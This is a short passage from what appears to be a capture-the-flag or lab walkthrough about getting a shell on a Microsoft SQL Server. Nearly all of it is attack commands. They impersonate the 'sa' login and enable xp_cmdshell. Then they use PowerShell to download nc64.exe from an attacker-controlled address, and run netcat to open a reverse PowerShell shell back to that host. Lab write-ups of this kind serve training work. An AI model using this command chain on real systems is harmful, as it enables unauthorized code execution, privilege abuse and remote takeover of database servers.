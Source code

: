 - Now we can get a shell:
Run python server on Kali

Upload nc64.exe to the target server and execute


![image18](../resources/f03f982e17da4735bf7427e5825e54ff.png)

```bash
EXECUTE AS LOGIN = 'sa';

SELECT SYSTEM_USER;

SELECT IS_SRVROLEMEMBER('sysadmin');

EXEC sp_configure 'Show Advanced Options', 1;

RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;

RECONFIGURE;

EXEC xp_cmdshell 'powershell -command "(New-Object System.Net.WebClient).DownloadFile(''http://10.10.14.24/nc64.exe'', ''%TEMP%\nc.exe'')"';
```

**or use: (not both - they do the same thing)**

```bash
EXEC xp_cmdshell 'echo IWR http://10.10.14.24/nc64.exe -OutFile %TEMP%\nc.exe \| powershell -noprofile';

EXEC xp_cmdshell '%TEMP%\nc.exe 10.10.14.24 8888 -e powershell';
```

![image19](../resources/629dad5a9c28432b9f69d30d7ae396bb.png)
